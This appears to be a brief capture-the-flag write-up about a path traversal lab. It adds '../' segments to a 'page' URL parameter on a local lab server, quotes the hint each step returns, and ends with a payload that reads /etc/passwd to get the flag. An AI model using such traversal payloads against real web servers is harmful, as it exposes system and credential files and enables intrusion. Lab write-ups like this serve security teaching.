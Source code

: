 in your url you type ("http://192.168.1.117/?page=../") and you will receive a message saying "Wtf ?"
when add another "../" to the end you get another message saying "Wrong.."
when add another "../" to the end you get another message saying "Nope.."
when add another "../" to the end you get another message saying "Almost."
when add another "../" to the end you get another message saying "Still nope.."
when add another "../" to the end you get another message saying "Nope.."
when add another "../" to the end you get another message saying "You can DO it !!! :] "
when add "etc/" to the end you get another message saying "You can DO it !!! :] "
finally you add put passwd("http://192.168.1.117/?page=../../../../../../../etc/passwd")
then you will get a flag.